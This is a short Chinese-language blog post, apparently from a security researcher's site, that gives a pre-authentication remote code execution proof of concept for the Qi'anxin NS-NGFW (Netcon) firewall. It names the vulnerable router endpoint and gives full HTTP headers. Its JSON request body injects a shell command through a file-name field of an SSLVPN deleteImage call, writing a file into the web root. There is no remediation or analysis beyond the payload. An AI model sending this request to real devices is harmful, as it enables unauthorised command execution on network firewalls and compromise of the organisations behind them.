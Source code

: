 ```yaml
---
layout: post
title: "奇安信NS-NGFW 网康防火墙 前台RCE"
subtitle: 'RCE'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


访问地址
http://X.X.X.X/directdata/direct/router
请求头(requestHeader)

```

```



Host: X.X.X.X

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) 

Version/12.0.3 Safari/605.1.15

Content-Length: 155

Content-Type: application/json

X-Requested-With: XMLHttpRequest

Accept-Encoding: gzip

```

```



请求Body(requestBody)

```

```

{
   "action": "SSLVPN_Resource",
   "method": "deleteImage",
   "data": [{
       "data": ["/var/www/html/d.txt;echo '5b926437'>/var/www/html/5b926.txt"]
   }],
   "type": "rpc",
   "tid": 17
}

```

```

